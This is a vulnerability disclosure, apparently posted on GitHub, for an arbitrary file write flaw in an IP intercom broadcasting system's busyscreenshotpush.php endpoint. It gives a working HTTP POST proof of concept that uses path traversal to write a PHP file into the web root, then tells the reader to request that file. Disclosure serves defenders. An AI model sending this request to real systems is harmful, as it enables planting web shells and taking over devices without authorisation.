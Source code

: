 There is an arbitrary file writing vulnerability in the IP network intercom broadcasting system of Shibang Communications Co., Ltd.

1. Impact of vulnerabilities
   
IP network intercom broadcasting system

2. Vulnerability location
/php/busyscreenshotpush.php

Vulnerability recurrence

![image](https://github.com/garboa/cve_3/assets/22628693/a88017dc-fb5e-4ca8-9142-31b4bfd6b199)

1. Pass in the writing file path through the jsondata[callee] parameter, pass in the file name through jsondata[imagename], and finally pass in the base64 encoding of the writing content through jsondata[imagecontent]. The POC is as follows
```
POST /php/busyscreenshotpush.php HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 192.168.1.23
Content-Type: application/x-www-form-urlencoded
Content-Length: 132

jsondata[caller]=1&jsondata[callee]=../../../../../ICPAS/Wnmp/WWW/php/&jsondata[imagename]=1_2_3.php&jsondata[imagecontent]=aGVsbG8=
```
![image](https://github.com/garboa/cve_3/assets/22628693/5603376f-87c7-4e9e-829d-2432ce194c0a)

2.  Visit /php/1_2_3.php
![image](https://github.com/garboa/cve_3/assets/22628693/bce36231-4ac2-4fed-9e05-b16de844e7f5)

